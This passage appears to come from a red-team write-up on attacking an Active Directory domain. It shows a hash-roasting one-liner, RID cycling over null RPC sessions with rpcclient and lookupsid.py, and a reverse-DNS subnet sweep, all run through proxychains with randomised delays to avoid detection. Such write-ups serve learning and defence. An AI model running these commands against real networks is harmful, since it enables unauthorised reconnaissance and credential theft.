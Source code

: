 ```python
for(A,B,C)in roast('192.168.1.11',xrange(1,2**31),20,100,False,0):print(fmt(A,B,C))
```

Having grabbed around 2k machine accounts we then thought of a way of getting the computers names. There're a couple of options here.

The first one being a null authentication RPC endpoint to cycle through the RIDs (can be done with `rpcclient` or `lookupsid.py` from [Impacket](https://github.com/fortra/impacket)):

```terminal?prompt=$
~$ rpcclient -U '%' 192.168.1.11 -c lsaquery
Domain Name: NIGHTCITY
Domain Sid: S-1-5-21-2513662962-556311701-4231341873

~$ for rid in `seq 1000 10000`
for> do proxychains4 rpcclient -U '%' 192.168.1.11 -c "lookupsids S-1-5-21-2513662962-556311701-4231341873-$rid" |& grep -v unknown | grep '\$ ('
for> sleep $((3+RANDOM % 5))
for> done
S-1-5-21-2513662962-556311701-4231341873-1000 NIGHTCITY\PRIDE$ (1)
S-1-5-21-2513662962-556311701-4231341873-1135 NIGHTCITY\GUTS$ (1)
S-1-5-21-2513662962-556311701-4231341873-1136 NIGHTCITY\CRUSHER$ (1)
S-1-5-21-2513662962-556311701-4231341873-1150 NIGHTCITY\ubuntu$ (1)
S-1-5-21-2513662962-556311701-4231341873-1182 NIGHTCITY\SATARA$ (1)
S-1-5-21-2513662962-556311701-4231341873-1199 NIGHTCITY\DESKTOP-EUM3L4L$ (1)
S-1-5-21-2513662962-556311701-4231341873-1200 NIGHTCITY\gmsa01$ (1)
S-1-5-21-2513662962-556311701-4231341873-1205 NIGHTCITY\SRV-2012R2$ (1)
S-1-5-21-2513662962-556311701-4231341873-1206 NIGHTCITY\SRV-2008R2$ (1)
S-1-5-21-2513662962-556311701-4231341873-1208 NIGHTCITY\LEXINGTON$ (1)
...
```

Note that RID Cycling can easily be performed [in combination with NTLM Relay](https://x.com/snovvcrash/status/1506286522655461386) 😉

```terminal?prompt=$
~$ proxychains4 lookupsid.py -no-pass -domain-sids 192.168.1.11 | grep '\$ (SidTypeUser'
```

However, it wasn't the case for us, so we headed towards the second obvious way to get the machine names — reverse DNS lookups for a couple of internal subnets:

```bash
#!/usr/bin/env bash
for subnet in {1..10}; do
    for i in `prips 192.168.$subnet.0/24`; do
        proxychains4 dig +tcp +noall +answer -x $i @192.168.1.11 |& grep PTR
        # OR directly on client when no dig/nslookup is available: getent -s hosts:dns hosts $i
        sleep $((3 + RANDOM % 5))
    done
done
```

Now, when we collected the hostnames, we can either compile the beta version of hashcat to utilize [the `-m31300` mode](https://github.com/hashcat/hashcat/issues/3629):

